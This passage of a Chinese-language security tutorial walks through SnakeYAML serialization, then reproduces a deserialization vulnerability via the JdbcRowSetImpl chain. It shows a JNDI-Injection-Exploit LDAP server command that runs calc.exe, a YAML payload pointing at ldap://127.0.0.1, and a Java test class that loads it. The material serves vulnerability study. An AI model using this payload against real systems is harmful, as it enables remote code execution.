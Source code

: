 输出结果：

```plain
!!SnakeYaml.Person {age: 18, username: mike}
```

注：这里的!!应该类似于一个标识符，表示对应的类名  
注：**序列化过程会触发类属性对应的get方法**  
**反序列化**：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class SnakeYamlTest {
    public static void main(String[] args) {
        // 反序列化
        String str = "!!SnakeYaml.Person {age: 18, username: mike}";
        Yaml yaml = new Yaml();
        Person person = (Person) yaml.load(str);
        System.out.println(person);
    }
}
```

输出结果：

```plain
SnakeYaml.Person@48533e64
```

注：**反序列化过程会触发类属性对应的set方法**

## 3\. 漏洞复现与分析

### JdbcRowSetImpl链

**环境**：SnakeYaml1.27 JDK1.8\_66  
**复现与分析**：  
使用工具开启LDAP服务

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc.exe"
```

POC:

```plain
!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}
```

测试类：

```plain
package SnakeYaml;

import org.yaml.snakeyaml.Yaml;

public class PocTest1 {
    public static void main(String[] args) {
        String poc = "!!com.sun.rowset.JdbcRowSetImpl {dataSourceName: ldap://127.0.0.1:1389/5cjybz, autoCommit: true}";
        Yaml yaml = new Yaml();
        yaml.load(poc);
    }
}
```
